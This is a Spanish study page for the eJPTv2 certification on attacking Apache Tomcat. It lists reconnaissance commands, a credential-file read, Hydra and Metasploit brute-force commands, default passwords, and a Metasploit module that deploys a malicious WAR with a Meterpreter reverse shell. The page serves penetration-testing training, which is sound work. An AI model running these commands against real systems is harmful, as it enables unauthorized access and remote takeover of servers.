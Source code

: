 ```yaml
---
layout: default
title: Preparación EJPTv2
--- 
```


# Tomcat 🌐

Apache Tomcat es un servidor de aplicaciones ampliamente utilizado para ejecutar aplicaciones web en Java. Debido a su popularidad, es un objetivo frecuente en auditorías de seguridad y pruebas de penetración.


---

## 🕵️ Identificación de la Versión de Apache Tomcat

Determinar la versión del servidor es fundamental para detectar posibles vulnerabilidades. Podemos hacerlo de varias maneras:

- Reconocimiento con Nmap

```bash
nmap -sV --script http-tomcat-enum <url>
```

- Reconocimiento con WhatWeb

```bash
whatweb -v <url> # Muestra detalles de la versión detectada.
```

- Accediendo al Panel de Administración

En muchos casos, la versión de Tomcat se puede encontrar directamente en su panel de administración:

```bash
http://<ip>:8080
```

Si la consola de administración es accesible, generalmente aparece en la página principal o en la sección "Server Status".

---

### ✔ Check List - Apache Tomcat


- /manager/html (Consola de administración de Tomcat)


- /host-manager/html (Administrador de hosts virtuales)


- /examples/ (Directorio de ejemplos (puede contener código vulnerable)


- /docs/ (Documentación del servidor (posible información sensible)


- /conf/tomcat-users.xml (Archivo de configuración de usuarios)


- /logs/ (Registros del servidor)


- /backups/ (Posibles copias de seguridad accesibles)

 *💡 Importante: Si el acceso a estos directorios no está restringido, puede representar una vulnerabilidad grave.


## 🔑 Enumeración de Usuarios en Apache Tomcat

Tomcat almacena credenciales en tomcat-users.xml. Si tenemos acceso, podemos enumerar los usuarios configurados:

```bash
cat /etc/tomcat*/tomcat-users.xml
```

Si no tenemos acceso directo, podemos intentar un escaneo con Metasploit:

```bash
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS <url>
set USER_FILE /usr/share/wordlists/metasploit/tomcat_mgr_default_users.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```

💡 Explicación:

✔ tomcat_mgr_login → Escanea credenciales por defecto de Tomcat.

✔ USER_FILE y PASS_FILE → Diccionarios de usuario y contraseña.


## Ataque de Fuerza Bruta con Hydra💥

Si encontramos el panel de login de Tomcat, podemos probar credenciales con Hydra:

```bash
hydra -L <usernames_wordlists.txt> -P <password_wordlist.txt> <url> http-get /manager/html
```

💡 Explicación: 

✔ -L → Lista de usuarios.

✔ -P → Diccionario de contraseñas.

✔ http-get /manager/html → Ataca el login de Tomcat.

Credenciales por defecto de Tomcat:

- admin:admin

- tomcat:tomcat

- tomcat:s3cret

- root:root

## Subida de War Malicioso con Metasploit

Si tenemos credenciales válidas en el Manager, podemos subir un archivo .war para obtener acceso remoto.

```bash
use exploit/multi/http/tomcat_mgr_deploy 
set RHOSTS <url>
set HTTPUSERNAME <usuario> 
set HTTPPASSWORD <contraseña> 
set PAYLOAD java/meterpreter/reverse_tcp 
set LHOST <tu_ip> 
set LPORT 4444 
exploit
```

---

<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>

